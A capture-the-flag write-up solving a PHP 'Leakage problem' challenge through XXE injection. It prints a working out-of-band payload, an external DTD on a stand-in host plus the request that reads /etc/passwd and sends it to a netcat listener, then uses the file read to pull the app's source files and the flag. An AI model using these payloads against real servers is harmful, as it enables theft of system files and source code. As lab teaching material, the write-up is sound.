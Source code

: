 # Leakage problem

Leakage problem was a PHP based XML external entity (XXE) injection challenge. The website
has a single field which expects an email address:

<img width="725" alt="image" src="https://user-images.githubusercontent.com/6275775/231825682-9b661676-cd6f-4bb1-9be1-03560a21a030.png">

The first thing to notice is that the corresponding request contains an xml payload:

```
<?xml version="1.0"?>
<form>
<email>xxx@foo.com</email>
</form>
```

This immediately triggers the XXE attack vector. I have a small server running where
I can host payloads for such competitions, so after some trial and error I got to the
following setup. (I'll use example.com below instead of the real server.)


```
https://example.com/foo.dtd:

<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://example.com:11111/?%file;'>">%start;
```

and send this to the website:

```
<?xml version="1.0"?>
<!DOCTYPE form [ 
    <!ENTITY % remote SYSTEM "https://example.com/foo.dtd">
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
     %remote;
     %send;
 ]>
<form>
<email>"</email>
</form>
```

The <email> part is not even needed I guess.

I can listen to the incoming requests in my server with:
```
nc -l localhost 11111
```

This works fine, I get the `/etc/passwd` file. What else can we steal? I looked around my 
`/proc` folder in my linux machine and tried `/proc/self/cmdline` and `/proc/self/cwd/register.php`:

```php
...

if( isset($creds->email)){
    $url = 'http://127.0.0.1:4200/register';
    $data = array('email' => $creds->email);
    $options = array(
        'http' => array(
            'header'  => "Content-type: application/x-www-form-urlencoded",
            'method'  => 'POST',
            'content' => "email=".$creds->email
        )
    );
    $context  = stream_context_create($options);
    $result = file_get_contents($url, false, $context);
    $success=True;
}
...
```

Ok, we have nice LFI, and it seems that the register.php forwards the request to an other service
that runs on port 4200.

I also checked `/proc/1/cmdline`:

```
/bin/sh -c apachectl start && node index.js
```

Maybe it is running in the `/app` directory, let's try `/app/index.js`:

```javascript
/* index.js */

const express = require("express");
const schema = require("./schema");
const resolvers = require("./resolvers");
const { graphqlHTTP } = require('express-graphql');
const {Users} = require('./users')
const bodyParser = require('body-parser')

const urlencodedParser = bodyParser.urlencoded({ extended: false })

const app = express();

app.use(
  "/graphql",
  graphqlHTTP({
    schema,
    rootValue: resolvers,
    graphiql: true
  })
);

app.post('/register',urlencodedParser,(req, res) =>{
  try{
    if(typeof req.body.email != 'undefined' && req.body.email){
      Users.push({email:req.body.email});
    }
  }catch(e){}
  return res.end();
});


const port = process.env.PORT || 4200;
app.listen(port);

console.log(`GraphQL Server is ready at http://localhost:4200/graphql`);
```

Bingo. From here, we can download the all the files mentioned in the import section (add .js to the 
filename), there is `data.js` which is kind of big and has some base64 encoded data in it. This is
some weird picture of Shrek with our most wanted flag.

